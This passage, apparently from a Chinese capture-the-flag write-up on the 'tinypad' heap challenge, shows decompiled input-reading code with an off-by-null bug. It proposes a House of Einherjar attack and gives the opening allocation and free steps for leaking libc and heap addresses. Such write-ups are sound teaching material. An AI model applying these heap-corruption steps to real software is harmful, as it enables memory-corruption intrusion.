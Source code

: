 ```bash
unsigned __int64 __fastcall read_until(__int64 a1, unsigned __int64 a2, int a3)
{
  unsigned __int64 i; // [rsp+28h] [rbp-18h]
  __int64 n; // [rsp+30h] [rbp-10h]

  for ( i = 0LL; i < a2; ++i )
  {
    n = read_n(0LL, a1 + i, 1LL);
    if ( n < 0 )
      return -1LL;
    if ( !n || *(a1 + i) == a3 )
      break;
  }
  *(a1 + i) = 0;                                // off by one 经典的置空末尾“\n”，造成了 off-by-null
  if ( i == a2 && *(a2 - 1 + a1) != 10 )
    dummyinput(a3);
  return i;
}
```

修改模块可以控制 chunk\_list ( tinypad ) 这一大片区域，伪造 fake\_size 绰绰有余  
最后一个 chunk 的“presize”直接作为相邻上一个 chunk 的数据区，完全可以控制  
可以考虑打 House Of Einherjar

### 详细流程

```bash
add(0xe0, "A"*0xe0)
add(0xf0, "B"*0xf0)
add(0x100, "C"*0x100)
add(0x100, "D"*0x100)
delete(3) //因为后面"chunk4->size"会被覆盖低位，所以这里只能为 0x100
delete(1) //这里要先释放后申请的 chunk，不然程序不会打印 (不知道原因)
```

[![](assets/1701612371-a82145a765bc33d1aa6aa5f9de0ba9bf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701151710-4b4d2f38-17df-1.png)  
因为这个题目比较特殊，所以直接利用 fd 指针来泄露 libc\_base 和 heap\_addr
